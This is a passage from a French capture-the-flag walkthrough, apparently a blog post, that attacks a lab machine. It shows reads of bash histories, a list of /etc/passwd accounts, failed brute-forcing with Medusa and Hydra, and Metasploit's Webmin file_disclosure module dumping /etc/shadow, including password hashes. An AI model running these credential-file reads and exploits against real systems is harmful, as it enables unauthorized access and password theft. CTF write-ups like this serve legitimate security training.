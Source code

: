```plain
Acces a /root/.bash_history ok
Acces a /etc/php5/apache2/php.ini ok
Acces a /var/log/faillog ok
Acces a /home/osama/.bash_history ok
Acces a /home/vmware/.profile ok
Acces a /home/vmware/.bashrc ok
```

Le *.bash\_history* du root, bien que remplis, ne donne rien d'intéressant pour la résolution du CTF.  

Qui plus est, aucun accès a des clés SSH n'a été trouvé.  

Heureusement le */etc/passwd* nous donne quelques accounts supplémentaires, de quoi redonner espoir :  

```plain
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

Là encore *Medusa* (pour SMB) et *Hydra* (pour SSH) ne donnent aucun résultats.  

Il est temps de se tourner vers le Webmin.  

Webmin and 3 little monkeys
---------------------------

Le module file\_disclosure de *Metasploit* va au delà de nos attentes puisqu'on voit ce que root voit :  

```plain
msf> use auxiliary/admin/webmin/file_disclosure
msf auxiliary(file_disclosure) > set RHOST 192.168.1.27
RHOST => 192.168.1.27
msf auxiliary(file_disclosure) > set RPATH /etc/shadow
RPATH => /etc/shadow
msf auxiliary(file_disclosure) > exploit

[*] Attempting to retrieve /etc/shadow...
[*] The server returned: 200 Document follows
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
```